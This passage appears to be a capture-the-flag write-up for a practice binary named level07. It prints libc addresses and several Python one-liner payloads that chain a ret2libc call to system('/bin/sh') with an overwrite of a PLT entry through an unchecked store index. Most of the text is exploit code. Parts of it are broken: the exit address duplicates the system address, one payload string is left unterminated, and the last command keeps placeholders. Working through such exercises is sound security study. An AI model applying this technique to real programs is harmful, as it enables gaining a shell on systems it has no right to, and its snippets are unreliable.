 addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function
-> stack_check_fail : 0x804a010
-> printf : 0x804a000

```
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + <address of command buffer + 7> + "\n" + <index diff between start of data[100] and 0x804a010>' ; cat) | ./level07
```
